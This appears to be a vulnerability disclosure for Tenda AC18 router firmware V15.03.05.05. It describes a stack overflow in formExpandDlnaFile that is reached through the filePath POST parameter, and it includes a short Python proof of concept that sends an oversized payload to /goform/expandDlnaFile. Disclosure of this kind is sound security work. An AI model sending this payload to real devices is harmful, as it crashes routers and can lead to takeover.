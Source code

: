 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formExpandDlnaFile` function. The `v18` variable receives the `filePath` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v18` can trigger this security vulnerability.

![image-20240305164522670](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164522670.png)

![image-20240305162856555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305162856555.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/expandDlnaFile"
payload = b"a"*2000

data = {"filePath": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305164900093](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164900093.png)
